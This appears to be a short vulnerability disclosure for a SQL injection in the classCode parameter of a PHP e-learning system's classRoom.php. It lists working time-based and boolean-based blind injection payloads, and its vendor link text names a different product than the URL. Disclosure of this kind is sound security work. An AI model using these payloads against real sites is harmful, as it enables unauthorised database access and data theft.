 # Simple E-Learning System by oretnom23 has SQL injection

BUG_Author：xtxxueyan

vendors: [https://www.sourcecodester.com/php-clinics-patient-management-system-source-code](https://www.sourcecodester.com/php-simple-e-learning-system-source-code)

Vulnerability File: /vcs/classRoom.php?classCode=

Vulnerability location: /vcs/classRoom.php?classCode=, classCode

dbname = vcs_db

### time-based blind
Payload: /vcs/classRoom.php?classCode=-9082' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,sleep(5),NULL-- - // Leak place ---> classCode

### boolean-based blind
Payload: /vcs/classRoom.php?classCode=class101_a' AND 6907=6907 AND 'TSIZ'='TSIZ // Leak place ---> classCode

Payload: /vcs/classRoom.php?classCode=class101_a' AND 6907=6907 AND 'TSIZ'='TSIQ // Leak place ---> classCode

